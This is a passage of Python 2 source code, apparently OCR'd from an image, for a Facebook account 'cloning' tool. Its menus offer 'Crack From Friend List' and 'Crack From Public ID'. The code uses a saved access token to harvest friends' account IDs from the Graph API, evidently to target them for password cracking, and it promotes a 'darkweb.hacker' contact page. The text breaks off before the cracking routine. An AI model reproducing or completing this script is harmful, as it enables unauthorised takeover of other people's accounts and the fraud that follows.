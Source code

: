 	print "\033[1;97m---------------------------------------------------------"
		
	print "\033[1;97m✧\033[1;97m.\033[1;97m1.\x1b[1;97m Start Cloning..."
      
        
        print "\033[1;97m✧\033[1;97m.\033[1;97m2.\033[1;97m Follow Me On Facebook For Help"
        print "\033[1;97m✧\033[1;97m.\033[1;97m0.\033[1;97m Logout            "
        hop()

def hop():
	hack = raw_input("\n\033[1;97mChoose Option ≻ \033[1;97m")
	if hack =="":
		print "\x1b[1;97mFill in correctly"
		hop()
	elif hack =="1":
		super()
	elif hack =="2":
	        os.system('xdg-open https://www.facebook.com/access.darkweb.hacker')
	        menu()
        
	elif hack =="0":
		hamu('Token Removed')
		os.system('rm -rf login.txt')
		exit()
	else:
		print "\x1b[1;97mFill in correctly"
		hop()
def super():
	global toket
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\x1b[1;97mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	os.system('clear')
	print logo
	print "\033[1;97m✧ \033[1;97m1.\x1b[1;97mCrack From Friend List."
	print "\033[1;97m✧ \033[1;97m2.\x1b[1;97mCrack From Public ID."
	print "\033[1;97m✧ \033[1;97m0.\033[1;97mBack."
	pilih_super()

def pilih_super():
	peak = raw_input("\n\033[1;97mChoose Option ≻ \033[1;97m")
	if peak =="":
		print "\x1b[1;97mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo
		print "\033[1;97m Please Wait"
		jalan('\033[1;97m[✔] Getting IDs \033[1;97m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('clear')
		print logo
		idt = raw_input("\033[1;97m≻\033[1;97mLink ID\033[1;37m: \033[1;97m")
		